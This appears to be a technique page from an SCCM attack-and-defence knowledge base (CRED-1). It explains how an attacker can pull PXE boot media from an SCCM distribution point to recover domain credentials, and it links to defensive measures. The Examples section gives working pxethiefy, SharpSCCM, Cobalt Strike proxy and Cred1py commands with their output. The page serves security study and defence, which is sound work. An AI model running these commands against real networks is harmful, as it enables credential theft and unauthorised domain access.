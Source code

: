 # CRED-1

## Description
Retrieve secrets from PXE boot media

## MITRE ATT&CK TTPs
- [TA0001](https://attack.mitre.org/tactics/TA0001) - Initial Access
- [TA0006](https://attack.mitre.org/tactics/TA0006) - Credential Access
- [T1078.002](https://attack.mitre.org/techniques/T1078/002/) - Valid Accounts: Domain Accounts

## Requirements
- Unauthenticated network access
- Line of sight to DHCP server (optional, but helps)
- Line of sight to PXE-enabled distribution point

## Summary
SCCM contains a preboot execution environment (PXE) feature which allows systems to load a specific operating system image on boot.

When PXE is configured, SCCM will make various [configuration changes](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot#pxe-service-point-installation) to the distribution point (DP). Most notably, the `PxeInstalled` and `IsPxe` values under the `HKLM\Software\Microsoft\SMS\DP` registry key are set to `1`.

The boot images are then [deployed](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot#add-boot-images-to-a-pxe-enabled-dp) from the site server to the DP's file system at `C:\RemoteInstall\`.

The three required components for PXE boot to work are: a PXE client, a DHCP server, and a PXE-enabled DP. A non-domain-joined computer (the PXE client in this case) that has network access could initiate the [DHCP process](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences), resulting in the PXE client receiving a DHCPPACK request containing the `BootFileName` location and Windows Deployment Services (WDS) network boot program (NBP). Next, the client initiates a TFTP session to [download](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot#downloading-the-boot-files) the NBP. The NBP contains several files and and programs that are used to boot the computer into a Windows Preinstallation Environment (WinPE).

To Summarize this process, how PXE works in SCCM:
1. PXE client gets an IP from DHCP server
2. Client sends new DHCPREQUEST to DP, DP responds with DHCPACK that contains the BootFileName
3. Client starts TFTP session targeting the boot file
4. Client downloads the network boot program (NBP)
5. NBP downloads the operating system loader and boot files
6. The WinPE image is loaded into a RAMDISK in memory
7. WinPE boots, loading a task sequence (TS) boot shell, TS manager boot strap (TsPxe.dll)
8. TS environment variables and a client certificate are downloaded via TFTP
9. TSPXE locates the MP and downloads policy assignments
10. Collection and machine variables are downloaded

**Note:** This goes beyond the scope of this article, but Microsoft's [documentation](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot) covers it in more depth.

This process can be abused because the files and policies can be accessed without booting the PXE media. By initiating the DHCPDISCOVER request, an attacker can locate the PXE media on the network, or they can contact a PXE-enabled DP directly if they know its name or IP address. If the PXE media stored there is password-protected, the hash can be retrieved and cracked offline using [hashcat](https://github.com/hashcat/hashcat) and [this custom module](https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module) from Christopher Panayi. If not protected, the cleartext data can be directly used. [PXEThief](https://github.com/MWR-CyberSec/PXEThief) and [pxethiefy](https://github.com/csandker/pxethiefy) both enable and make it trivial to conduct this attack.

Once the media file is decrypted, it may contain or be used to obtain credential material in the `NAAConfig` (network access account(NAA)), `TaskSequence`, and `CollectionSettings` (collection variables) policies.

## Impact
Attackers may recover domain credentials from this process, the difficulty of which is a direct function of the complexity of the password set on the PXE media file. If a weak password is set, cracking the password is relatively computionally "easy," depending on the hardware.

With these credentials, attackers may transition from an unauthenticated context on the network to a domain-authenticated context. If any of the credentials recovered are privileged, it may also enable privilege escalation and lateral movement vectors.

## Defensive IDs
- [PREVENT-3: Harden or disable network access accounts](../../../defense-techniques/PREVENT/PREVENT-3/prevent-3_description.md)
- [PREVENT-6: Configure a strong PXE boot password](../../../defense-techniques/PREVENT/PREVENT-6/prevent-6_description.md)
- [PREVENT-7: Disable command support in PXE boot configuration](../../../defense-techniques/PREVENT/PREVENT-7/prevent-7_description.md)
- [PREVENT-21: Restrict PXE boot to authorized VLANs](../../../defense-techniques/PREVENT/PREVENT-21/prevent-21_description.md)


## Examples
### Pxethiefy.py
Using pxethiefy from a Linux machine with network access to retrieve a PXE media file with no password set:
```
testsubject4@sphere4:~$ sudo python3 pxethiefy.py explore -i eth0 -a atlas.aperture.local

[*] Querying Distribution Point: atlas.aperture.local
[*] Sending DHCP request to fetch PXE boot files at: atlas.aperture.local
--- Scapy output ---
.
Sent 1 packets.
[*] Variables File Location: \SMSTemp\2023.10.13.16.48.53.0001.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.var
[*] BCD File Location: \SMSTemp\2023.10.13.16.48.53.07.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.bcd
[*] Downloading var file '\SMSTemp\2023.10.13.16.48.53.0001.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.var' from TFTP server 'atlas.aperture.local'
[+] Blank password on PXE media file found!
[*] Attempting to decrypt it...
[+] Media variables file to decrypt: 2023.10.13.16.48.53.0001.{23F3F1E7-6083-4BB7-97D3-C7B890BADB71}.boot.var
[+] Password bytes provided: 0xb4ff3000ceff90fffbff4c00ceff89ffdcff4800
[+] Successfully decrypted media variables file with the provided password!
[+] Management Point: http://atlas.aperture.local
[+] Site Code: PS1
[+] You can use the following information with SharpSCCM in an attempt to obtain secrets from the Management Point..
  SharpSCCM.exe get secrets -i "{d10d7f98-17dd-4588-b645-34964936023b}" -m "{5F8225E8-6B94-4830-AD90-0F88FC2B3536}" -c "3082073E020103308206FA06092A864886F70D010701A08206EB048206E7308206E33082

<SNIP>

6C458FCF53D0A6D2DBA446F1C0414FAD1E03A89D8481E26D7C1BED1E71FDC3272C701020207D0" -s -c PS1 -mp atlas.aperture.local
```
### Cred1py
Using Cred1py from a Linux machine over a UDP SOCKS5 proxy to retrieve the decryption key for a PXE media file:

On Cobalt Strike, enable UDP SOCKS5 proxy on port 9090:

```
socks 9090 socks5 enableNoAuth a b
```

Then execute Cred1py with:

```
testsubject4@sphere4:~$ python3 ./main.py 10.0.1.200 10.0.2.4 TS-HOST 9090
```

## References
- Christopher Panayi, [Identifying and Retrieving Credentials From SCCM/MECM Task Sequences](https://www.mwrcybersec.com/research_items/identifying-and-retrieving-credentials-from-sccm-mecm-task-sequences)
- Christopher Panayi, [Pulling Passwords Out of Configuration Manager](https://www.youtube.com/watch?v=Ly9goAud0gs)
- Christopher Panayi, [PXEThief](https://github.com/MWR-CyberSec/PXEThief)
- Christopher Panayi, [AES-128 ConfigMgr CryptDeriveKey Hashcat Module](https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module)
- Carsten Sandker, [pxethiefy](https://github.com/csandker/pxethiefy)
- Microsoft, [Understanding PXE Boot](https://learn.microsoft.com/en-us/troubleshoot/mem/configmgr/os-deployment/understand-pxe-boot#)
- SpecterOps, [Cred1py](https://github.com/specterops/Cred1py)
